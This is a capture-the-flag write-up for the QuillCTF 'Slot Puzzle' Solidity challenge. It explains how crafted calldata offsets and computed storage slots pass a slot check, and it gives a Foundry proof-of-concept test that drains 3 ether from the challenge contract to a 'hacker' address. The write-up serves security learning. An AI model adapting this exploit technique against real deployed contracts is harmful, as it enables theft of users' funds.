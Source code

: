 ```yaml
---
title: QuillCTF - Slot Puzzle
description: 2023 | Hard | Solidity Security
tags:
    - smart contract
    - storage layout
---
```


## Objective of CTF

> Your purpose is just to call the deploy() function to recover the 3 ether.

[QuillCTF Challenges - Slot Puzzle](https://quillctf.super.site/challenges/quillctf-challenges/slot-puzzle)

## Vulnerability Description

- Only the instance of SlotPuzzle deployed from SlotPuzzleFactory can call the `payout()` function to transfer ether and we need to pass the check in `ascertainSlot()` to let SlotPuzzle call `payout()`
- Calculate the slot iteratively according to `keccak256(key, slot + (is ghostStore ? 1 : 0))` pattern
- We need three recipients, all pointing to hacker, to recover 3 ether since each `payout()` can only transfer 1 ether
- The difficult part is to decide `offset` > <
    - `params.slotKey` is copy from calldata to memory. `bytes memory slotKey` stores the slotKey offset in memory, here is 0x80
    - The offset of slot is calculated using `add(slotKey, calldataload(offset))`. So, the value of `offset` should be the offset of target value (i.e. slot.offset - slotKey) in the calldata. We can make use of `Parameters.slotKey` to pass that value

    Offset(Hex)|Calldata Layout
    -|-
    04|offset of struct Parameters
    24|totalRecipients, 3
    44|offset
    64|offset of the Recipients array (relative to struct offset)
    84|offset of slotKey (relative to struct offset)
    a4|size of the Recipients array
    c4|recipients[0].account
    ...|...
    184|size of slotKey
    1a4|slot.offset - 0x80
    1c4|slot

## Proof of Concept

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import { SlotPuzzle } from "src/SlotPuzzle.sol";
import { SlotPuzzleFactory } from "src/SlotPuzzleFactory.sol";
import { Parameters, Recipients } from "src/interface/ISlotPuzzleFactory.sol";

contract SlotPuzzleTest is Test {
    SlotPuzzle public slotPuzzle;
    SlotPuzzleFactory public slotPuzzleFactory;
    address hacker;

    function setUp() public {
        slotPuzzleFactory = new SlotPuzzleFactory{value: 3 ether}();
        hacker = makeAddr("hacker");
    }

    function calc(uint256[8] memory keys, uint256 slot) internal pure returns (uint256) {
        for (uint8 i = 0; i < 8; i ++) {
            slot = uint256(keccak256(abi.encodePacked(keys[i], slot)));
            if (i % 2 == 1) slot += 1; // move to variable map
        }
        return slot - 1; // back to variable hash
    }

    function testHack() public {
        vm.startPrank(hacker, hacker);
        assertEq(address(slotPuzzleFactory).balance, 3 ether, "weth contract should have 3 ether");

        // solution
        Recipients[] memory recipients = new Recipients[](3);
        recipients[0] = Recipients({
            account: hacker,
            amount: 1 ether
        });
        recipients[1] = recipients[0];
        recipients[2] = recipients[0];

        bytes32 slot = keccak256(
            abi.encodePacked(calc(
                [
                    uint256(uint160(hacker)), block.number,
                    block.timestamp, uint256(uint160(address(slotPuzzleFactory))),
                    block.prevrandao, uint256(uint160(address(block.coinbase))),
                    block.chainid, uint256(uint160(uint256(blockhash(block.number - block.basefee))))
                ],
                1
            ))
        );

        slotPuzzleFactory.deploy(
            Parameters({
                totalRecipients: 3,
                offset: 0x1a4,  // offset to the value 0x144
                recipients: recipients,
                slotKey: abi.encode(0x144, slot)
                // 0x144 = slot.offset(0x1c4) - 0x80
            })
        );

        assertEq(address(slotPuzzleFactory).balance, 0, "weth contract should have 0 ether");
        assertEq(address(hacker).balance, 3 ether, "hacker should have 3 ether");

        vm.stopPrank();
    }
}
```